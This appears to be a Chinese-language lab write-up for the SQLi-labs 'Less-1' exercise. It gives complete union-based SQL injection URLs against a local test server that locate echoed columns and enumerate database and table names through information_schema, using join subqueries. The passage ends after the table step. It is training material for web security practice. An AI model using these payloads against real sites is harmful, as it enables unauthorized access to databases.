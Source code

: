 ### 注入流程-Less-1

#### 判断回显点

在做这一步之前应该先判断查询列数，这里偷懒了

```
http://192.168.231.129:9001/Less-1/?id=0' union select * from (select 1)a join (select 2)b join (select 3)c%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607152842645.png" alt="image-20230607152842645" style="zoom: 33%;" />

#### 爆库

```
http://192.168.231.129:9001/Less-1/?id=0' union select * from (select 1)a join (select group_concat(schema_name) from information_schema.schemata)b join (select 3)c%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607152951844.png" alt="image-20230607152951844" style="zoom: 33%;" />

#### 爆表

```
http://192.168.231.129:9001/Less-1/?id=0' union select * from (select 1)a join (select group_concat(table_name) from information_schema.tables where table_schema=database())b join (select 3)c%23
```
